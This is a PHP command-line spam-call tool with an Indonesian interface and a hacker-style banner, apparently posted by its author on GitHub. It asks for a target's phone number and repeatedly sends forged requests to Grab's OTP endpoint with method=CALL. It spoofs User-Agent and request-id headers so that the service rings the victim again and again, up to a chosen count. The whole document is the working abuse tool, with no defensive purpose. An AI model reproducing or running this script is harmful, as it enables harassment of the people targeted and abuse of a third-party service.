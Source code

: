 <?php
system('clear');
function get(){
	return trim(fgets(STDIN));
}
class prankcall{
	public function __construct($no){
		$this->number = $no;
	}
	private function get(){
		return trim(fgets(STDIN));
	}
	private function correct($no){
		$cek = substr($no,0,2);
		if($cek=="08"){
			$no = "62".substr($no,1);
		}
		return $no;
	}
	private function ekse(){
		$no = $this->correct($this->number);
		$rand = rand(0123456,9999999);
		$rands = $this->randStr(12);
		$post = "method=CALL&countryCode=id&phoneNumber=$no&templateID=pax_android_production";
		$h[] = "x-request-id: ebf61bc3-8092-4924-bf45-$rands";
		$h[] = "Accept-Language: in-ID;q=1.0, en-us;q=0.9, en;q=0.8";
		$h[] = "User-Agent: Grab/5.20.0 (Android 6.0.1; Build $rand)";
		$h[] = "Content-Type: application/x-www-form-urlencoded";
		$h[] = "Content-Length: ".strlen($post);
		$h[] = "Host: api.grab.com";
		$h[] = "Connection: close";
		$ch = curl_init();
		curl_setopt($ch, CURLOPT_URL, "https://api.grab.com/grabid/v1/phone/otp");
		curl_setopt($ch, CURLOPT_POST, 1);
		curl_setopt($ch, CURLOPT_POSTFIELDS, $post);
		curl_setopt($ch, CURLOPT_HTTPHEADER, $h);
		curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
		$x = curl_exec($ch); curl_close($ch);
		$ekse = json_decode($x,true);
		if(empty($ekse['challengeID'])){
			echo "Gagal\n";
		}else{
			echo "Sukses\n";
		}
	}
	private function loop($many,$sleep=null){
		$a=0;
		$no = $this->correct($this->number);
		while($a<$many){
			$rand = rand(0123456,9999999);
			$rands = $this->randStr(12);
			$post = "method=CALL&countryCode=id&phoneNumber=$no&templateID=pax_android_production";
			$h[] = "x-request-id: ebf61bc3-8092-4924-bf45-$rands";
			$h[] = "Accept-Language: in-ID;q=1.0, en-us;q=0.9, en;q=0.8";
			$h[] = "User-Agent: Grab/5.20.0 (Android 6.0.1; Build $rand)";
			$h[] = "Content-Type: application/x-www-form-urlencoded";
			$h[] = "Content-Length: ".strlen($post);
			$h[] = "Host: api.grab.com";
			$h[] = "Connection: close";
			$ch = curl_init();
			curl_setopt($ch, CURLOPT_URL, "https://api.grab.com/grabid/v1/phone/otp");
			curl_setopt($ch, CURLOPT_POST, 1);
			curl_setopt($ch, CURLOPT_POSTFIELDS, $post);
			curl_setopt($ch, CURLOPT_HTTPHEADER, $h);
			curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
			$x = curl_exec($ch); curl_close($ch);
			$ekse = json_decode($x,true);
			if(empty($ekse['challengeID'])){
				continue;
			}else{
				$nn = $a+1;
				echo "[$nn] Sukses\r";
				$a++;
			}
			if($sleep!=null) sleep($sleep);
			if($a>=$many) echo "\nDone lurr!\n";
		}
	}
	private function randStr($l){
		$data = "abcdefghijklmnopqrstuvwxyz1234567890";
		$word = "";
		for($a=0;$a<$l;$a++){
			$word .= $data{rand(0,strlen($data)-1)};
		}
		return $word;
	}
	public function run(){
		while(true){
			echo "root@.Mr.yM=# Kirim Mode Manual/Auto ?(y/t) : ";
			$loop = $this->get();
			if($loop=="y" OR $loop=="t"){
				break;
			}else{
				echo "Jika manual ketik (y) jika auto ketik (t)\n";
				continue;
			}
		}
		if($loop=="y"){
			echo "root@.Mr.yM=# Masukan Jumlah Spam : ";
			$many = $this->get();
			$this->loop($many);
		}else{
			$this->ekse();
		}
	}
}
menu:
system($bersih);
$green  = "\e[92m";
$red    = "\e[91m";
$yellow = "\e[93m";
$blue   = "\e[36m";
echo $green."

╔═╗┌─┐┌─┐┌┬┐  ╔═╗┌─┐┬  ┬  
╚═╗├─┘├─┤│││  ║  ├─┤│  │   X [POS]
╚═╝┴  ┴ ┴┴ ┴  ╚═╝┴ ┴┴─┘┴─┘\n".$blue.
"Barisan Orang Spam";
echo $red."
[!] Author   : Mr.gr007						[!]
[!] github   : github.com/aris9999        [!]\n";
echo $green."
======================================
|[!]  Thanks To Army Cyber Network [!]|
======================================\n";
echo "\n";
echo "\n";
echo "+-----------------------------------+\n";
echo "| [!] 0852***** or 62852******  [!] |\n";
echo "+-----------------------------------+\n";
echo " \n";
sleep ('0.4');
echo "root@.Mr.gr007=# Input No Target : ";
$no = get();
$n = new prankCall($no);
$n->run();
